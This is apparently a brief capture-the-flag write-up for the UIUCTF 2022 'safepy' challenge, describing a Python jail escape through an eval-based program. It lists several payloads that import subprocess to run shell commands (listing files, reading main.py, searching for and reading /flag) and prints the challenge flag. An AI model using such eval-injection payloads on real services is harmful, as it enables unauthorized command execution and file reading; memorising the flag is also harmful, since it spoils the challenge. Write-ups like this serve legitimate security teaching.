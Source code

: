 ```yaml
---
layout: post
title:  safepy
image: /assets/img/UIUCTF 2022.png
date:   2022-08-29 21:52:19
tags:
- web
- python
description: python jail escape

categories:
- python
---
```


![](/assets/img/2022-07-30-23-28-18.png)

You have to exit the jail of a python program
The program only does eval to get the values so with the following you get the flag:

print(__import__("subprocess").getoutput("ls"))
print(__import__("subprocess").getoutput("cat main.py"))
print(__import__("subprocess").getoutput("cat README.md"))
print(__import__("subprocess").getoutput("find / -name flag"))
print(__import__("subprocess").getoutput("cat /flag"))
uiuctf{na1v3_0r_mal1ci0u5_chang3?}